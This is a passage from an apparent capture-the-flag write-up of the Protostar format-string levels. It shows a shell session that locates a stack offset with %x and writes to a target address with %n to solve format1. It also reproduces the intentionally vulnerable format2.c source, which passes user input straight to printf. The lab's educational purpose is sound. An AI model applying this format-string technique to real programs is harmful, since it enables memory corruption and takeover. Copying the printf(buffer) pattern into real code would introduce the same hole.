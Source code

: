 user@protostar:~$ /opt/protostar/bin/format1 "DDDD %140\$x"
DDDD 78243034

user@protostar:~$ /opt/protostar/bin/format1 "DDDD %139\$x"
DDDD 31252044

user@protostar:~$ /opt/protostar/bin/format1 "DDDD %138\$x"
DDDD 44444400

user@protostar:~$ /opt/protostar/bin/format1 "DDDD  %138\$x"
DDDD  44444444

user@protostar:~$ /opt/protostar/bin/format1 "$(ruby -e 'print "DDDD  %138\$x"')"
DDDD  44444444

user@protostar:~$ /opt/protostar/bin/format1 "$(ruby -e 'print [0x44444444].pack("V") + "  %138\$x"')"
DDDD  44444444

user@protostar:~$ /opt/protostar/bin/format1 "$(ruby -e 'print [0x08049638].pack("V") + "  %138\$x"')"
8  8049638

user@protostar:~$ /opt/protostar/bin/format1 "$(ruby -e 'print [0x08049638].pack("V") + "  %138\$n"')"
8  you have modified the target :)
{% endcodeblock %}

## Protostar Format2
{% codeblock lang:c format2.c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
{% endcodeblock %}
